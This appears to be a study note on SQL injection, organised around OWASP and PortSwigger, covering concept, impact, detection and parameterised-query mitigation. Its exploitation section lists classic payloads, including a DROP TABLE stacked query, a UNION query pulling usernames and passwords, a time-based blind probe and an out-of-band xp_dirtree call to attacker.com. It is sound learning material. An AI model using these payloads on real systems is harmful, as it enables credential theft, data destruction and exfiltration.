# SQL Injection  

---

## Metadata  
- **OWASP Category (2021):** A03 Injection  
- **PortSwigger Link:** [What is SQL Injection? Tutorial & Examples | Web Security Academy](https://portswigger.net/web-security/sql-injection)  

- **Sub-Topics:**  
  - UNION attacks = finding columns with useful datatype  
  - Blind SQL = Results are not returned in response  
  - Second-Order (Stored) SQL = App takes user input from an HTTP request, and stores for future use  

---

## 💡 Concept  
- **What is it?**  
> - Allows an attacker to interfere with the queries that an application makes to its database.  
> - Can include data that belongs to other users – or any other data an application can access.  
> - Attackers can execute SQL to compromise the back-end infrastructure and could enable a full takeover.  

**Note:**  Most SQL injections occur within the `WHERE` clause, but can occur anywhere within the query  

- **Impact:**  
> - **Confidentiality:** Extract sensitive database contents (PII, credentials).  
> - **Integrity:** Modify or delete database records.  
> - **Availability:** Drop tables or run heavy queries to crash the database.  

---

## 🛠 Exploitation Notes  
- **Where to test:**  
> - In the entry points of an application that interacts with the database  

- **Payloads / Tricks used:**  
> - Boolean logic:  
>   ```
>   ' OR 1=1--
>   ```  
> - Stacked queries (if supported):  
>   ```
>   '; DROP TABLE users--
>   ```  
> - UNION attack:  
>   ```
>   ' UNION SELECT username, password FROM users--
>   ```  
> - Time-based blind:  
>   ```
>   ' OR IF(1=1, SLEEP(5), 0)--
>   ```  
> - Out-of-band:  
>   ```
>   '; exec xp_dirtree '\\attacker.com\share'--
>   ```  

---

## 🔍 Detection  
- **How to identify in apps:**  
> - A single quote `'` → and view any errors.  
> - SQL-specific syntax that evaluates different values.  
> - Different responses from boolean conditions (OR 1=1, OR 1=2).  
> - Time delays when an SQL query is executed.  

- **Automated detection tools:** Burp Scanner, SQLMap  

---

## 🛡 Mitigation  
- **Developer-side fixes:**  
> - Parameterized queries (prepared statements) for when untrusted input appears as data within the query → string used must be a hard-coded constant  
> - Whitelisting permitted values  
> - Different logic to disallow the behavior  
> - WAF  

---

## Extras  
- **Cheat sheet / references:**  
  - [SQL injection cheat sheet | Web Security Academy](https://portswigger.net/web-security/sql-injection/cheat-sheet)  

